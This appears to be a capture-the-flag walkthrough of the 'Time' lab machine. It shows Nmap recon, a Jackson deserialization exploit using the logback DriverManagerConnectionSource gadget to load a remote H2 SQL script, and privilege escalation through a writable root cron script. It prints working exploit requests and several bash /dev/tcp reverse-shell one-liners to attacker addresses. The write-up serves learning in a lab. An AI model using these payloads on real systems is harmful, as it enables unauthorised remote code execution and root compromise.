 ```yaml
---
layout: post
title: Time - Walkthrough
---
```


Time was all about research. The enumeration part is pretty straight forward, but the real challenge is to be able to filter results properly. Once you get the right exploit, it's easy to get the foothold and root part is a classic of privesc. I enjoyed that box !

## Recon
As usual, I start with a quick Nmap followed by a full scan with the default script (-C) and the -V tag to get more info about the services.

{% highlight sh %}
sudo nmap time && sudo nmap -sCV -p- time -oN nmap
{% endhighlight %}

{% highlight text %}
\# Nmap 7.91 scan initiated Mon Oct 26 15:12:43 2020 as: nmap -sCV -oN nmap -p- time
Nmap scan report for time (10.10.10.214)
Host is up (0.097s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
\# Nmap done at Mon Oct 26 15:18:34 2020 -- 1 IP address (1 host up) scanned in 350.85 seconds

{% endhighlight %}

We only have SSH and HTTP open. Also I note the apache version `2.4.41`. 

By having a look a the website, I can see that, as the title says, it is some kind of <strong><cite>JSON</cite></strong> parser. 
There are 2 main functions:

1. Beautify
2. Validate

If I take some json strings and try the beautify function, everything seems to work fine. But, if I try the `validate` function, I get a error message. 

>Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object

Interesting ! We have some valuable information there. Now we know that the back-end uses 
<strong><cite>Java</cite></strong> to validate the <strong><cite>JSON</cite></strong> string. Moreover, it uses the [jackson](https://github.com/FasterXML/jackson) library to parse the data. So, I guess I can try googling that and see if I can find some juicy exploit out there.

## Foothold / User

There are quite a lot of great articles on the net about <strong><cite>Jackson exploitation</cite></strong>. To narrow down my results, I did a quick search on the `Apache version 2.4.41`. That specific version has been released around mid 2019 so I think that I can filter my results on google with that specific year. 
Now it is way easier to find out what exploit should I use and I've found a great [article](https://blog.doyensec.com/2019/07/22/jackson-gadgets.html) about deserialization in Jackson library. 

>  When Jackson deserializes ch.qos.logback.core.db.DriverManagerConnectionSource, this class can be abused to instantiate a JDBC connection. JDBC stands for (J)ava (D)ata(b)ase (C)onnectivity. JDBC is a Java API to connect and execute a query with the database and it is a part of JavaSE (Java Standard Edition). Moreover, JDBC uses an automatic string to class mapping, as such it is a perfect target to load and execute even more “gadgets” inside the chain.

The idea here is to create a SSRF attack to force the server to execute a request on our machine and execute a malicious payload.
Because the vulnerability uses JDBC, we need to craft a payload in sql format. 

[Other Linke](http://www.hackdig.com/09/hack-137165.htm)

I'm gonna make a quick test by setting up a listener on my machine and send a payload via curl. 

{% highlight sh %}
nc -lvnp 2222
{% endhighlight %}

{% highlight text %}
curl -X POST http://time -d 'mode=2&data=["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:tcp://10.10.14.10:2222/"}]'
{% endhighlight %}

We got an answer ! So we can control the request that is made be the remote server. 

{% highlight text %}
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::2222
Ncat: Listening on 0.0.0.0:2222
Ncat: Connection from 10.10.10.214.
Ncat: Connection from 10.10.10.214:40774.
	jdbc:h2:tcp://10.10.14.10:2222/����^C
{% endhighlight %}

Now all we need to do is to ask the server to request our payload and execute it. 

1. Create the sql payload as seen in the POC and save it as `exp.sql`.

>CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
>        String[] command = {"bash", "-c", cmd};
>        java.util.Scanner s = new >java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A">);
>        return s.hasNext() ? s.next() : "";  }
>$$;
>CALL SHELLEXEC('bash -i >& /dev/tcp/192.168.136.129/7777 0>&1')

2. Set up a python server

{% highlight sh %}
sudo python -m http.server 80
{% endhighlight %}

3. Set up a listener 
{% highlight sh %}
nc -lvnp 2222
{% endhighlight %}

4. Send the payload to the target machine. 

- First I url encoded my payload
> ["ch.qos.logback.core.db.DriverManagerConnectionSource", {"url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.10/exp.sql'"}]

To

> %5B%22ch.qos.logback.core.db.DriverManagerConnectionSource%22%2C+%7B%22url%22%3A%22jdbc%3Ah2%3Amem%3A%3BTRACE_LEVEL_SYSTEM_OUT%3D3%3BINIT%3DRUNSCRIPT+FROM+%27http%3A%2F%2F10.10.14.10%2Fexp.sql%27%22%7D%5D

Then send it !
{% highlight text %}
curl -X POST http://time -d 'mode=2&data=%5B%22ch.qos.logback.core.db.DriverManagerConnectionSource%22%2C+%7B%22url%22%3A%22jdbc%3Ah2%3Amem%3A%3BTRACE_LEVEL_SYSTEM_OUT%3D3%3BINIT%3DRUNSCRIPT+FROM+%27http%3A%2F%2F10.10.14.10%2Fexp.sql%27%22%7D%5D'
{% endhighlight %}



Voila ! We have a foothold.

uid=1000(pericles) gid=1000(pericles) groups=1000(pericles)

The `user.txt` is inside Pericles home directory. 

## Root

I made a bit of enumeration but I didn't find anything useful. What I like to do is monitoring the processes on the box using <strong><cite>pspy64</cite></strong>. So, I uploaded and executed it on the box. 
I've directly seen that a shell script is invoked by the root user every 10 seconds. 

{% highlight text %}
2020/12/01 13:36:31 CMD: UID=0    PID=4100   | /bin/bash /usr/bin/timer_backup.sh 
2020/12/01 13:36:31 CMD: UID=0    PID=4099   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4098   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4097   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4096   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4095   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4094   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4093   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4092   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4107   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4106   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4105   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4104   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4103   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:31 CMD: UID=0    PID=4108   | /lib/systemd/systemd-udevd 
2020/12/01 13:36:32 CMD: UID=0    PID=4109   | /bin/bash /usr/bin/timer_backup.sh
{% endhighlight %}

Let's check the permissions on that file. 

{% highlight sh %}
ls -ld /usr/bin/timer_backup.sh
{% endhighlight %}
{% highlight text %}
rwxrw-rw- 1 pericles pericles 88 Dec  1 13:35 /usr/bin/timer_backup.sh
{% endhighlight %}

We have write permissions so, I can just modify that file by adding a bash command to get a shell. 

{% highlight sh %}
echo 'bash -i >& /dev/tcp/10.10.14.10/3333 0>&1' >> /usr/bin/timer_backup/sh
{% endhighlight %}

Then, set up a new listener on my local machine. 

{% highlight sh %}
nc -lvnp 3333
{% endhighlight %}

And we have a root shell. 

{% highlight sh %}
uid=0(root) gid=0(root) groups=0(root)
{% endhighlight %}

<strong>Rooted ;)</strong>
